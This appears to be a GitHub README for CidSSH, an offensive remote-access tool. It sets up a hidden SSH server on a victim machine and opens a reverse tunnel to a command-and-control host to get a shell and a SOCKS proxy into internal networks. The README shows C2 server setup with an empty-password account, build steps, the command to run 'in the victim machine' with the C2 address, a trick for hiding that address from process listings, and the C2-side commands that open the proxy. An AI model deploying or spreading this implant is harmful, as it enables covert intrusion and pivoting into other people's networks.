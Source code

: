 # Cid SSH
![alt text](http://equestrianstatue.org/wp-content/uploads/2016/04/Spain-Burgos-El-Cid-4-525x394.jpg)

Let's face it, there is no better shell than SSH. It just not only provides a rich encrypted shell communication but it can be used to create a socks proxy to browse the internal network of a system.

**CidSSH** is a statically compiled tool (no dependencies needed) that can be used to create an SSH server and a SSH client within just one binary. It will firstly, create RSA certificates, spin up an SSH server (listening in `localhost` and by default on port 2222),and finally create a reverse SSH tunnel with a C2 host specify by command lone. Due to the fact that the SSH server listens at `localhost`, external scanners won't detect it. 

This tool can be used as a fast initial compromise tool that can be used not only as a shell but also to browse the internal network of the victim. 

Windows systems lack of a proper TTY but thanks to [this](https://blogs.msdn.microsoft.com/commandline/2018/08/02/windows-command-line-introducing-the-windows-pseudo-console-conpty/) we can in recent Windows versions get a fully functional TTY. In the case that the target system does not support `CreatePseudoConsole` it will downgrade to a simple, not interactive shell.

## Setup instructions
### C2 server
We need to properly configure the SSH server running at the C2 so we don't get hacked.

Run all of these commands:

```
sudo useradd anonymous
echo anonymous:U6aMy0wojraho | sudo chpasswd -e
sudo usermod -s /bin/false anonymous
```

Allow blank passwords for SSH sessions of anonymous in `/etc/ssh/sshd_config`:
```PermitEmptyPasswords yes```

Restart sshd:
```systemctl restart ssh```

### Prebuilt binaries
You can just use the prebuilt binaries that are in [Release](https://github.com/illera88/Cid-SSH/releases/tag/v1.0). They are ready to roll.

If you want to compile from source keep reading below.

### Compilation on Windows
You can use the `CMakeLists.txt` along with `CMake` to create a Visual Studio project.

To generate mentioned project, just make sure you set in `CMake` the proper include and library paths for:
- libssh 
- openssl

You can find both of them already statically prebuilt for Windows [here](https://github.com/illera88/PrecompiledLibraries/).

### Compilation on Linux
CidSSH is compiled statically for linux using musl (a replacement for libc) from an Alpine distribution `x86_64`. 
We have a dockerfile to do the compilation more easy `Dockerfile_linux_static`.
These are the steps to build and get the compiled binary from the container:
```
# Build the image, install dependencies and compile CidSSH
sudo docker build -t alpine_cid_ssh -f Dockerfile_linux_static .
# Copy the binary from the docker container to the current folder
sudo docker run -v `pwd`:/data_out -i -t alpine_cid_ssh:latest /bin/sh -c "cp /Cid-SSH/build/CidSSH /data_out/"
```

### Compilation on MacOs
Compile CidSSH:
```
cd ~/shared/SSHIUU/src/
mkdir build && cd build
git clone https://github.com/illera88/PrecompiledLibraries
cmake -DCMAKE_BUILD_TYPE=Release -DLIBSSH_STATIC_PATH=PrecompiledLibraries/macos/libssh_mod/ ..
make
```

## Using it
It's very easy. In the victim machine:
```
Cid-SSH.exe 192.168.15.135
```

You could also specify the IP address as an integer so it's not that obvious if `ps` is run:
```
Cid-SSH.exe -t 3232239495
```
Page to do the conversion: http://www.aboutmyip.com/AboutMyXApp/IP2Integer.jsp

In the C2:
```
sudo netstat -ptan | grep sshd | grep LISTEN | grep anon
# Get the port number, replace the XXXXX 
echo "" > ~/.ssh/known_hosts && sshpass -p pwd ssh user@localhost -p XXXXX -oStrictHostKeyChecking=no -D 0.0.0.0:8888
# Extra: One-liner for two previous commands:
echo "" > ~/.ssh/known_hosts && sshpass -p pwd ssh user@localhost -p `sudo netstat -ptan | grep sshd | grep LISTEN | grep anon | cut -d : -f2 | cut -d" " -f1` -oStrictHostKeyChecking=no -D 0.0.0.0:8888
```